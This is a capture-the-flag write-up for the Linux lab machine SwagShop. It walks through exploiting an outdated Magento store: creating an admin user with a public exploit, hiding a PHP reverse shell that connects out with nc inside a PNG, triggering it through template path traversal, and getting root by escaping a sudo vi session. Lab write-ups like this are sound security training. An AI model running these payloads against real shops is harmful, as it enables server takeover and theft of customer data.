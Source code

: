 # SwagShop
## Difficulty: Easy
## OS: Linux

IP= 10.10.10.140

Nmap scan: open ports 22, 80.
Started gobuster scan on web server.

## Web enumeration

The website is using magneto CMS for e-commerce which was 2014 version. It was outdated.
Found this(https://www.exploit-db.com/exploits/37977) exploit which creates admin user.

Ran this exploit and created a new admin user: forme:forme

Logged into the website as forme.

## Froghopper attack

Found this(https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper) attack which gives RCE on magneto.

Went to System->Configuration. Then Advanced->Developer. And allowed symlinks from template settings->allow symlinks.

To create an exploit, I created a blank png file and added php reverse shell into it.

```
echo '<?php' >> shell.php.png
echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 5555 >/tmp/f");' >> shell.php.png
echo '?>' >> shell.php.png
```

Then to upload this image, I created a new category Catalog->Manage categories and added the image in images tab and saved the category.

To inject the payload, we have to create a new template.
Newsletter->Newsletter template

Add new template and create a new template.

In the content:

```
{{block type='core/template' template='../../../../../../media/catalog/category/shell.php.png'}}
```

Preview shell and got a reverse shell.

User file was present in /home/haris/user.txt

## Root.txt

Ran sudo -l and found out we can run /usr/bin/vi as root and can open any file in /var/www/html/*

```
sudo /usr/bin/vi /var/www/html/shell.sh

:set shell=/bin/bash
:shell
```

Got shell as root and got root.txt
